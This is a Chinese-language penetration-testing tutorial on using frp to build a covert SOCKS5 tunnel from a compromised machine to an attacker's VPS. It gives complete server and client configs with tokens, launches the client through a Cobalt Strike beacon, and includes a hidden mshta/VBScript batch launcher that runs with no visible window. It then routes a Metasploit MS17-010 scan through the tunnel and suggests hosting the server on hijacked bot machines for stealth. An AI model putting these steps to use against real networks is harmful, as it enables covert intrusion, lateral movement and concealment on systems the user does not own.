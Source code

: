 ### 4.1 Frp内网穿透实战

**前言**

实战中，当通过某种方式拿下测试虚拟机权限时，发现该机器可出网。此时为了内网横向渗透与团队间的协同作战，可以利用Frp在该机器与VPS之间建立一条“专属通道”，并借助这条通道达到内网穿透的效果。实战中更多时候依靠 Socks5 。

更多详细使用方法，可查看官方Github，这里不再赘述。

    https://github.com/fatedier/frp/
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F202009281415088.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**前期准备**-
先准备一台VPS与域名。

因某种情况会更换VPS地址，为了减少更改frp配置文件的次数，所以做域名泛解析。若更换VPS，直接编辑域名解析地址即可。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200928141553303.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200928141543938.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**下载地址**

Frp下载地址 \[跨平台，实战中根据目标机版本选择下载\]

    https://github.com/fatedier/frp/releases
    
        

**配置文件**

**服务端**

  
```
  #通用配置段
    
    [common]
    
    #frp服务端监听 [VPS]
    
    bind_addr = 0.0.0.0
    
    #frp服务器监听端口 [实战中可以用一些通透性较好的端口]
    
    bind_port = 7007
    
    #服务端Web控制面板登录端口 [通过控制面板，可以实时了解到数据收发情况。实战中用处不大]
    
    dashboard_port = 6609
    
    #服务端Web控制面板用户名与密码 [强口令]
    
    dashboard_user = SuperMan
    
    dashboard_pwd = WC3pvjmh2tt8
    
    #日志输出位置，所有的日志信息都放到当前目录下的frps.log文件中
    
    log_file = ./frps.log
    
    #日志记录等级，有trace、debug、info、warn、error,通常情况下为info
    
    log_level = info
    
    #日志保留时间
    
    log_max_days = 3
    
    #验证凭据，服务端和客户端的凭据必须一样才能连接
    
    auth_token = E0iQEBOdoJeh
    
    #启用特权模式，从v0.10.0版本开始默认启用特权模式 [特权模式下，客户端更改配置无需更新服务端]
    
    privilege_mode = true
    
    #特权模式Token [强口令，建议随机生成]
    
    privilege_token = kukezkHC8R1H
    
    #特权模式允许分配的端口 [避免端口被滥用]
    
    privilege_allow_ports = 4000-50000
    
    #心跳检测超时时长
    
    heartbeat_timeout = 30
    
    #每个代理可以设置的连接池上限
    
    max_pool_count = 20
    
    #口令认证超时时间，一般不用改
    
    authentication_timeout = 900
    
    #指定子域名，后续将全部用域名的形式进行访问 [特权模式需下将 *.xxxx.online 解析到外网VPS上，即域名泛解析]
    
    subdomain_host = xxxx.online
    
        

**客户端**

    #通用配置段
    
    [common]
    
    #frp服务端IP或域名 [实战中一般都会直接用域名]
    
    server_addr = frp.xxxx.online
    
    #frp服务器端口
    
    server_port = 7007
    
    #授权token，此处必须与服务端保持一致，否则无法建立连接
    
    auth_token = E0iQEBOdoJeh
    
    #启用特权模式 [特权模式下服务端无需配置]
    
    privilege_mode = true
    
    #特权模式 token,同样要与服务端完全保持一致
    
    privilege_token = kukezkHC8R1H
    
    #心跳检查间隔与超时时间
    
    heartbeat_interval = 10
    
    heartbeat_timeout = 30
    
    #启用加密 [通信内容加密传输，有效防止流量被拦截]
    
    use_encryption = true
    
    #启用压缩 [传输内容进行压缩，有效减小传输的网络流量，加快流量转发速度，但会额外消耗一些CPU资源]
    
    use_compression = true
    
    #连接数量
    
    pool_count = 20
    
    #内网穿透通常用socks5
    
    [socks5]
    
    type = tcp
    
    #连接VPS内网穿透的远程连接端口
    
    remote_port = 9066
    
    #使用插件socks5代理
    
    plugin = socks5
    
    #socks5连接口令 [根据实际情况进行配置]
    
    #plugin_user = SuperMan
    
    #plugin_passwd = ZBO0McQe6mE1
    
        
```


**执行部署**

**服务端**-
SSH连接到VPS上，后台启动frp服务端。

  
```
  root@Ubuntu:~# cd tools/frp/
    
    root@Ubuntu:~/tools/frp# nohup ./frps -c frps.ini &
    
    root@Ubuntu:~/tools/frp# jobs -l
    
    root@Ubuntu:~/tools/frp# cat frps.log
    
```

        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020092814230191.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**客户端**

将frpc.exe与frpc.ini传到目标机的同一目录下，直接运行。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200928142357115.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
当frp客户端启动后，是否成功连接，都会在frp服务端日志中查看到-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200928142429377.png%23pic_center)-
但如果直接在目标机的Beacon中启动frp客户端，会持续有日志输出，并干扰该pid下的其他操作，所以可结合execute在目标机无输出执行程序

```

    beacon> sleep 10
    
    beacon> execute c:/frpc.exe -c c:/frpc.ini
    
    beacon> shell netstat -ano |findstr 7007
```

    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200928142501242.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
或者，创建后台运行的bat脚本。

 
```
   @echo off
    
    if "%1" == "h" goto begin
    
    mshta vbscript:createobject("wscript.shell").run("%~nx0 h",0)(window.close)&&exit
    
    :begin
    
    c:\frpc.exe -c c:\frpc.ini
    
```

        

**工具穿透**

**Metasploit**

当“专属通道”打通后，可直接在msf中挂该代理。因为msf的模块较多，所以在内网横向移动中更是一把利器。\[若socks5设置口令，可结合proxychains\]

   
```
    # sudo msfconsole -q
    
    msf5 > setg proxies socks5:frp.xxxx.online:9066
    
    msf5 > use auxiliary/scanner/smb/smb_ms17_010
    
    msf5 auxiliary(scanner/smb/smb_ms17_010) > set threads 10
    
    msf5 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 192.168.144.178

    msf5 auxiliary(scanner/smb/smb_ms17_010) > run
    
```

    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200928142701558.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**Windows**

Windows中可结合Proxifier、SSTap等工具，可设置socks5口令，以此达到用windows渗透工具横向穿透的效果-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200928142723220.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**小结**

Frp的用法比较灵活且运行稳定。如 可将frp服务端挂在“做菜的肉鸡”上，以达到隐蔽性，也可将客户端做成服务自启的形式等

    https://mp.weixin.qq.com/s?__biz=MzU1NjgzOTAyMg==&mid=2247485563&idx=2&sn=1163136fa1e407bef053a7ce8c6f1fb4&chksm=fc3fb17acb48386c0d41802ee5f2e1469d192422d80c1b03ed476beec419c43e06e341621a26&scene=21    ---AnonySec 感谢大佬
    
        

* * *